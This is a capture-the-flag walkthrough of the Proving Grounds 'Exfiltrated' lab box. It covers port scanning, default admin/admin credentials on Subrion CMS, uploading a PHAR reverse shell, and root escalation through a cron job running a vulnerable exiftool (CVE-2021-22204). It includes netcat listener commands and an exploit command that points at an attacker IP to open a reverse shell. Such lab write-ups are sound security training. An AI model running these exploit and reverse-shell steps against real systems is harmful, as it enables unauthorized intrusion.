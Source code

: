 ```yaml
---
title: "Proving Grounds - Exfiltrated"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Subrion, Exiftool]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Exfiltrated was a well-structured box that provided an excellent opportunity to exploit a Subrion CMS vulnerability and perform privilege escalation via an Exiftool exploit. 

Initial enumeration led to the discovery of Subrion CMS, and default credentials allowed for access to the admin panel. 

By exploiting a file upload vulnerability, a reverse shell was obtained. Further enumeration revealed a cron job running Exiftool on uploaded images, which was leveraged to escalate privileges and capture the flag.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify Subrion CMS]
    B -->|Default Credentials| C[Admin Panel Access]
    C -->|File Upload Vulnerability| D[Upload Reverse Shell]
    D -->|Execute Reverse Shell| E[Gain Initial Access]
    E -->|Cron Job Enumeration| F[Identify Exiftool Usage]
    F -->|Exploit Exiftool| G[Privilege Escalation]
    G -->|Capture Flag| H[Success]
```

## Information Gathering

### Portscan

---

- `nmap -sS -Pn -n -T4 --open 192.168.177.163`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open 192.168.177.163 -p-`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,80 192.168.177.163`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%202.png)
    

## Enumeration

### HTTP 80
---

- [http://192.168.177.163](http://192.168.177.163) → redirects to exfiltrated.offsec
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%203.png)
    
- `cat /etc/hosts`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%204.png)
    

- [http://exfiltrated.offsec/](http://exfiltrated.offsec/) → Subrion CMS
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%205.png)
    
- [http://exfiltrated.offsec/robots.txt](http://exfiltrated.offsec/robots.txt)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%206.png)
    
- [http://exfiltrated.offsec/panel/](http://exfiltrated.offsec/panel/) → Panel Login. CMS v4.2.1
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%207.png)
    

- `searchsploit Subrion CMS 4.2.1`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%208.png)
    

- Subrion default credentials: admin/admin
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%209.png)
    

- [http://exfiltrated.offsec/panel/members/add/](http://exfiltrated.offsec/panel/members/add/) → made login
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2010.png)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2011.png)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2012.png)
    

Once authenticated i tried this exploit

- https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

After read the exploit i decided to put an reverse shell inside the [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/) 

- `cat revShell.phar`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2013.png)
    
- [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2014.png)
    

- [http://exfiltrated.offsec/uploads/revShell.phar](http://exfiltrated.offsec/uploads/revShell.phar)
`rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2015.png)
    

## Priv Escalation

---

- `cat /etc/cron*`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2016.png)
    
- `cat /opt/image-exif.sh`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2017.png)
    
- `ls -lh /opt/image-exif.sh`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2018.png)
    
- `ls -ld /var/www/html/subrion/uploads /opt/metadata`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2019.png)
    

Since the cron script writes EXIF metadata to a log file in `/opt/metadata` using the `exiftool` command, one possible attack vector is to exploit a symlink attack if the script does not properly handle symbolic links.

- `exiftool -ver`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2020.png)
    

- `searchsploit exiftool`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2021.png)
    

Searching more i found this repository

[https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git](https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git)

But wasn’t working because of the bbz

- `sudo apt-get install imagemagick djvulibre-bin exiftool`

- `python3 exploit.py 192.168.45.194 4430`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2022.png)
    
- [http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw](http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw)
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2023.png)
    
- [http://exfiltrated.offsec/uploads/image.jpg](http://exfiltrated.offsec/uploads/image.jpg)
`rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2024.png)
    

- `Flag.txt`
    
    ![Untitled](../assets/img/provingrounds/Exfiltrated/Untitled%2025.png)